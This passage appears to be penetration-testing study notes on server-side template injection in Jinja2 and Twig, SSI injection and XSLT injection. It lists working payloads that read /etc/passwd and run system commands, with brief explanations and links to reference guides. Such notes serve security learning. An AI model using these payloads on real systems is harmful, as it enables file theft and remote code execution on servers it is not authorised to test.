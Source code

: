Follow the red arrow if the web app errors out.

**Jinja Exploits**
```jinja2
# Information disclosure
{{ config.items() }}

# Dump built in functions
{{ self.__init__.__globals__.__builtins__ }}

# LFI
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
HackTricks made a very nice [guide](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) for Jinja specific SSTI.

**Twig Exploits**
```twig
# Information disclosure
{{ _self }}

# LFI
{{ "/etc/passwd"|file_excerpt(1,-1) }}

# RCE 
{{ ['id'] | filter('system') }}
```
### SSI Injection
Server-Side Includes allows web apps to make dynamic content on HTML pages. It's supported by both Apache and IIS. Usually we can infer that it's being used based off of web extensions such as `.shtml`, `.shtm`, and `.stm`. Some configurations allow arbitrary file extensions to be used.

**SSI Directives**
SSI uses directives to generate content dynamically. It consists of the following components: name, parameter name, and value. It uses the following syntax:
```ssi
<!--#name param1="value1" param2="value" -->

Here's an example of config
<!--#config errmsg="Error!" -->

```

A list of payloads can be found [here](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Include%20Injection/#methodology). There's also a guide by [HackTricks](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection).

### XSLT Injection
This vulnerability involves manipulating XSLT transformations on the server. XSLT is used to transform XML documents into other formats. Here are the most common XSL elements:
- `<xsl:template>`: Introduces a template, can contain a `match` attribute that contains a path that this template applies to
- `<xsl:value-of>`: extracts value of XML node specified in `select` attribute
- `<xsl:for-each>`: enables looping over all XML nodes specified in `select` attribute
